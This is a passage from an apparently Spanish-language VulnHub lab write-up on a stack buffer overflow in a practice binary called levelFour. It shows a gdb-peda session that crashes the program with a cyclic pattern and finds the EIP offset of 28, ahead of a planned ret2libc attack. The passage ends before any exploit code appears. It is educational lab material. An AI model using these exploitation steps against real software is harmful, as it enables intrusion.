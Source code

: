 No podemos correr el shellcode de antes por que mide mas del buffer asignado vamos a comenzar a hacer el ret2libc 

Comenzamos ahora pasandole 50 bytes

```shell
❯ gdb -q levelFour
Reading symbols from levelFour...
(No debugging symbols found in levelFour)
gdb-peda$ pattern_arg 50
Set 1 arguments to program
gdb-peda$ run
Starting program: /home/miguelrega7/VulnHub/StackOverflowForBeginners/content/levels/levelFour 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
Buf: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x38 ('8')
EBX: 0x41412d41 ('A-AA')
ECX: 0x0 
EDX: 0x1 
ESI: 0xffffd300 --> 0x2 
EDI: 0xf7fa7000 --> 0x1e4d6c 
EBP: 0x44414128 ('(AAD')
ESP: 0xffffd2b0 ("A)AAEAAaAA0AAFAAbA")
EIP: 0x413b4141 ('AA;A')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x413b4141
[------------------------------------stack-------------------------------------]
0000| 0xffffd2b0 ("A)AAEAAaAA0AAFAAbA")
0004| 0xffffd2b4 ("EAAaAA0AAFAAbA")
0008| 0xffffd2b8 ("AA0AAFAAbA")
0012| 0xffffd2bc ("AFAAbA")
0016| 0xffffd2c0 --> 0xf7004162 
0020| 0xffffd2c4 --> 0x56559000 --> 0x3efc 
0024| 0xffffd2c8 --> 0xffffd3b0 --> 0xffffd598 ("LC_TIME=es_MX.UTF-8")
0028| 0xffffd2cc --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x413b4141 in ?? ()
gdb-peda$ 
```

Vamos a comenzar haciendo el script pero solo indicaremos el offset y variable junk que es basura para llegar a `EIP`

```shell
gdb-peda$ pattern_offset 0x413b4141
1094402369 found at offset: 28
gdb-peda$ 
```
